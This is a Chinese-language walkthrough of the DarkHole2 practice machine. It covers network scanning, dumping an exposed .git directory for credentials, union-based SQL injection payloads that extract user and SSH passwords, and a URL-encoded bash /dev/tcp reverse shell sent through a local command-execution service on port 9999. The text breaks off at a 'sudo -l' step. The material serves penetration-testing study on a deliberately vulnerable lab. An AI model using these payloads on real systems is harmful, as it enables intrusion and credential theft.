记录一下dc靶机系列的漏洞，本次学习的是darkhole2，还是有点难度，涉及信息搜集，git查找历史记录，sql注入，反弹shell以及python提权
信息搜集
查看目标靶机的mac地址：

扫描目标靶机
在kali中扫描同一网段下主机ip
1 | arp-scan -l |

可见目标靶机的ip是192.168.130.141
扫描靶机端口
1 | nmap 192.168.130.141 -p- |

开放80端口
目录扫描
1 | dirsearch -u 192.168.130.141:80 |


发现了.git文件和login.php登录入口
指纹收集
1 | whatweb -v 192.168.130.141 |

查出靶机的相关信息
WEB渗透
利用.git查找是否有信息泄露
先访问下/.git/目录下的文件

我们需要使用git-dumper或者githack下载源码
先下载git-dumper
1 | pip install git-dumper -i https://pypi.tuna.tsinghua.edu.cn/simple |

使用git-dumper把/.git目录下的文件下载到当前用户的hackup文件夹
1 | git-dumper http://192.168.130.141/.git/ hackup |

切换到hackup目录下，查看git的历史修改记录
1 | cd hackup |

发现有三次历史提交记录，查看每次修改的内容
1 | git diff |

发现账号密码
1 | lush@admin.com |
登录web页面

发现url中存在id=1，这里说明可能存在sql注入

SQL注入测试
先在1后面加单引号
1 | http://192.168.130.141/dashboard.php?id=1' |
无回显，继续测试
1 | id=1' and 1=1 --+ |
第一个语句正常回显，第二个语句不回显，说明存在字符型注入，其使用单引号闭合
我们使用下面语句依次判断其字段的列数，数据库命，表名
1 | http://192.168.130.141/dashboard.php?id=-1' union select 1,2,3,4,5,6 --+ |
[!NOTE]
information_schema.tables是数据库自带的库，其中记录所有的表名，group_concat(table_name)是将所查到的表名合成一行输出
查找出两个表：users和ssh

查找users表的列名：
1 | http://192.168.130.141/dashboard.php?id=-1' union select 1,2,3,4,5,group_concat(column_name) from information_schema.columns where table_name='users'--+ |

查找users表的账号密码：username和password
1 | http://192.168.130.141/dashboard.php?id=-1' union select 1,2,3,4,5,group_concat(username,' ',password) from users --+ |

不过即使拿到账号密码，我们登入到后台也拿不到shell，所以作用不大，但我们可以获取到ssh的账号密码，然后ssh登录，就可能拿到shell
将上面注入流程中的users表替换成ssh表即可
1 | http://192.168.130.141/dashboard.php?id=-1' union select 1,2,3,4,5,group_concat(column_name) from information_schema.columns where table_name='ssh'--+ |

拿到ssh的账号密码：jehad-fool
反弹shell+提权
SSH登录
1 | ssh jehad@192.168.130.141 |

查看权限，尝试提权：
1 | id |

不能运行sudo，无法提权，查看一下可以使用/bin/bash的用户
1 | cat /etc/passwd | grep "/bin/bash" |

可见除了root和jehad用户外，还有lama和losy用户
接着查看bash的历史记录：
1 | cat .bash_history |

发现9999端口有端口转发，我们查看一下靶机上所有活动的端口以及端口状态
1 | ss -antp |

可见9999端口确实存在确实存在活动，我们查看一下运行9999端口活动的用户：
1 | curl "http://127.0.0.1:9999/?cmd=id" |

端口用户是losy，上面得知losy用户也有bash权限，可以尝试用losy进行提取
反弹shell
我们先构造9999端口参数(cmd)的值：bash -c 'bash -i >& /dev/tcp/192.168.130.128/8888 0>&1'
对其进行url编码，得到：bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.130.128%2f8888+0%3e%261%27
在kali中另开一个端口进行监听，执行：nc -lvnp 8888

继续在第一个窗口执行下面的命令：
1 | curl http://127.0.0.1:9999/?cmd=bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.130.128%2f8888+0%3e%261%27 |

可见这里成功反弹losy的shell
[!CAUTION]
ps：除此之外，还有另外一种方法进行反弹：
在第一个窗口执行：
ssh jehad@192.168.130.141 -L 9999:localhost:9999命令含义：端口转发，将你本地(jehad)localhost:9999 端口连接转发到远程机（192.168.130.141/kali）的 localhost:9999，这里目标靶机的9999端口就与我们kali的9999端口连接在一起了
同样先在另外一个窗口打开监听：
nc -lvnp 8888我们在第一个端口或者kali的浏览器执行：
http://127.0.0.1:9999/?cmd=bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.130.128%2f8888+0%3e%261%27（在浏览器可以执行成功的原因就是我们访问kali的9999端口等价于访问目标靶机的9999端口，从而在目标靶机的9999端口执行cmd种的命令）
这样就可以反弹成功了
继续执行：sudo -l